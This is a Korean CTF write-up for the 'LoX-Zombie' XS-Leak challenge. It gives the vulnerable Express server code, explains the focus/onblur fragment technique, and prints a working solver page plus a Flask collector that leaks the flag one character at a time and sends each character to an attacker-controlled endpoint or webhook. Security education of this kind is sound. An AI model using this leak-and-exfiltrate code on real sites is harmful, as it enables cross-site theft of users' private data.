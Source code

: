 # LoX-Zombie

# Usage

# Concept
- XSleak

# Writeup
### 개인적인 생각
저 개인적으로 솔직히 워게임에 XSleak 기법 문제가 상대적으로 다른 기법에 비해 적기도 하고 메이저CTF에서는 자주 나오는 기법이라고 생각해서 이번에  XSleak시리즈로 내볼려고 만들어 봤습니다. 앞으로 XSleak기법들을 대상으로 하나하나 만들어 보려고 합니다. (물론 안될수도 있습니다.) 그리고 아카이브 되면서 XSLeak을 공부하려는 분들에게 교보재가 되어 도움이 되었으면 합니다. 

먼저 문제 제목과 설명처럼 XSLeak을 통해 flag를 leak해야합니다.
### app.js
```js
const isLocal = () => (req, res, next) => (req.connection.remoteAddress === '::ffff:127.0.0.1'|| req.connection.remoteAddress === '::1') 
    ? next() 
    : res.status(403).send('Only LOCAL is allowed');

app.get('/', (req, res) => {
    res.send('hello!!');
});

//isLocal()
app.get('/flag',isLocal(),(req, res) => {
    if (!('flag' in req.query))
        return res.status(200).send('give me flag');

    let flag = req.query.flag;

    if (typeof flag !== 'string')
        return res.status(200).send('give me string type');

    for (let i = 0; i < flag.length; i++) {
        if (flag.charCodeAt(i) < 32 || flag.charCodeAt(i) > 127) {
            return res.status(200).send('plz ascii');
        }
    }

    if (FLAG.startsWith(flag)) {
        HTML = `<button type='submit' id='Zombie'>good try!!</button>`;
        res.send(HTML);
        HTML = '';
    } else {
        res.status(200).send('Flag not matched.');
    }
});
```

```html
<button type='submit' id='Zombie'>good try!!</button>
```
을 반환합니다. 

### 문제 기법
문제 해결을 위한 XSleak기법은 ids-using-focus란 기법입니다. 
간단히 이 기법을 설명하자면 교차사이트에서 focus 이벤트와 url fragment를 활용하여 id가 설정 되어 있는지 확인할 수 있습니다.
iframe에서  https://example.com/foo#bar 를 로드하면 id="bar"란 요소가 있으면 focus이벤트가 발생합니다. 
그러니 우리는 iframe과 #Zombie를 이용한하여 button이 focus된것을 감지하면 flag를 얻을 수 있을 겁니다. 
CSP와 같은 보안헤더등이 따로 존재하지 않아서 leak이 가능합니다.

window.onblur를 통해서 id='Zombie'인 botton태그에 focus를 뺏겼을때를 감지함으로써 flag를 leak을 하는것이 핵심 요소입니다.

### 문제 풀이
문제 풀이에 필요한 코드는 html페이지를 띄우기 위한 app.py와 익스플로잇 코드가 있는 html코드입니다. 
사실 github.io를 이용해서 html과 웹훅사이트로도 가능합니다.

##### index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Zombie_Solver</title>
</head>
<body>
    <script>
        (async () => {
            
            const ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_ ";

            const leak = async (url) => {
                return new Promise(r => {
                    let iframe = document.createElement('iframe')

                    // we lost focus so id matches
                    window.onblur = async () => {
                        console.debug('onblur fired')
                        window.onblur = ''
                        // we need to wait so chrome dosnt crash when removing the iframe
                        await sleep(100)
                        iframe.remove()
                        return r(1)
                    }

                    // no match
                    setTimeout(() => {
                        window.onblur = ''
                        iframe.remove()
                        return r(0)
                    }, 400) // calibrate timeout based on server's admin bot

                    iframe.src = `${url}#Zombie`

                    document.body.appendChild(iframe)
                })
            }

            const sleep = (ms) => {
                return new Promise(resolve => setTimeout(resolve, ms));
            }

            // Repeat this for each letter to get the flag
            let curr = '{{  flag  }}'
            
            for (let i = 0; i < 30; i++) {
                let found = false;
                for (let j = 0; j < ALPHABET.length; j++) {
                    let temp = curr + ALPHABET[j];
                    console.log(`Trying: ${temp}`);
                    fetch("/try..." + decodeURIComponent(temp));

                    if (await leak(`http://localhost/flag?flag=${temp}`)) {                        
                        fetch("/addFLAG?flag=" + decodeURIComponent(ALPHABET[j]));
                        curr += ALPHABET[j];
                        found = true;
                        break;
                    }
                }
                if (!found) break; 
            }
        })()
    </script>
</body>
</html>
```
솔버 코드입니다. github.io를 이용해서 풀려면
fetch("/addFLAG?flag=" + decodeURIComponent(ALPHABET[j]));  이 부분에서 /addFLAG를 웹훅사이트로 바꾸고
let curr = '{{  flag  }}' 이 부분을 추출하고 있는 flag를 넣으면 됩니다. 
봇이 1분동안 방문한 사이트에 대기하기 때문에 한번에 flag를 leak하는 솔브코드는 아닙니다.  

#### solv.py

```py
from flask import Flask, request, render_template

flag = "hspace{"
app = Flask(__name__)

@app.route('/solv')
def solv():
    return render_template('index.html',flag=flag)

@app.route('/addFLAG')
def addFLAG():
    global flag
    
    if 'flag' in request.args:
        flag += request.args['flag']
        print(flag)
        return 'added'
    return 'no flag'


@app.route('/getFlag')
def getFlag():
    return flag


if __name__ == '__main__':
    app.run('0.0.0.0', port=30000)
```
html을 띄우기 위한 app.py입니다. 추출한 flag를 flag변수에 넣으면 됩니다. 아쉽게도 완벽한 자동화 코드는 아닙니다.... 
대략 5,6번 정도 report엔드포인트에 솔버코드가 담긴 url을 넣으면 flag를 완전히 leak할 수 있습니다. 

#### solv 가이드
먼저 app.py를 띄우고 templates디렉토리에 index.html를 넣고 솔브인 html코드를 넣습니다. 그리고 app.py를 포트포워딩 해줍니다. 
(저같은 경우 윈도우에서 wsl사용없이 flask를 작동시켰습니다.)
그뒤에 /report엔드포인트에 http://ip/solv 를 넣으면 try가 나오면서 flag를 leak하고 1분이 지나면 지금까지 leak한 flag를 파이썬 변수에 넣고 다시report엔드포인트에 http://ip/solv를 넣습니다. leak한 flag에 }가 나오면 익스플로잇을 멈춥니다. 
